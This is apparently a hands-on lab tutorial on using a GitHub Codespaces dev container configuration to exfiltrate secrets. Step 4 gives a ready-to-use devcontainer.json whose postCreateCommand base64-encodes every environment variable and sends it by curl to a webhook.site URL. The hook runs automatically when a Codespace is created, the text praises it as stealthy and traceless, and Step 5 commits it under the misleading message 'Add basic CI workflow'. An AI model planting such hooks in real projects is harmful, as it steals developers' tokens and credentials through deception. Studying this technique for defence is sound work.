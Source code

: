 # Using GitHub Codespaces to infiltrate without dropping a shell

This lab will simulate how an attacker could use GitHub Codespaces to gain persistent access or exfiltrate data using nothing more than a modified dev container configuration file.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **Git installed and configured** on your machine.
  - You can verify by running: `git --version`
- **Internet access** to connect to GitHub and Webhook.site.
- **A browser** to:
  - Access [https://github.com](https://github.com)
  - Use [https://webhook.site](https://webhook.site) to receive the exfiltrated secret.
- **(Optional)** A GitHub personal access token (PAT) if you prefer pushing via HTTPS with authentication.


## Step 1: Create a new GitHub repository

Go to GitHub and create a new public or private repository named something like `codespaces-persistence-demo`.

## Step 2: Add a .devcontainer Directory

Clone the repository locally (replace your-username with your GitHub username):

```bash
git clone https://github.com/your-username/codespaces-persistence-demo.git
cd codespaces-persistence-demo
```

Create the required Codespaces configuration structure:

```bash
mkdir -p .devcontainer
```

Create a Dockerfile:

```bash
# .devcontainer/Dockerfile
FROM mcr.microsoft.com/devcontainers/base:ubuntu

RUN apt-get update && apt-get install -y curl
```

## Step 3: Obtain WebHook URL

Go to [https://webhook.site/](https://webhook.site/) and copy the value shown in Your unique URL

## Step 4: Add a malicious devcontainer.json

Inside `.devcontainer/devcontainer.json`, add the following:

```yaml
{
  "name": "codespace-persistence",
  "build": {
    "dockerfile": "Dockerfile"
  },
  "postCreateCommand": "curl -X POST -d \"$(env | base64)\" https://webhook.site/YOUR-UNIQUE-ID"
}
```
Replace `https://webhook.site/your-unique-id` with a unique webhook URL from https://webhook.site. This command encodes the Codespace’s environment variables and sends them to your webhook listener. It’s stealthy, runs silently in the background, and leaves no visual traces unless the developer checks logs or audit trails.

## Step 5: Commit and push

```bash
git add .
git commit -m "Add basic CI workflow"
git push -u origin main
```

## Step 6: Launch a codespace

On the GitHub repo page, click the green “Code” button, and select “Create Codespace on main”.

As the Codespace boots, GitHub builds the container, and your postCreateCommand runs automatically. Within seconds, your webhook will receive a POST request containing the full environment variables of that Codespace, including any secrets, access tokens, or credentials exposed at runtime.
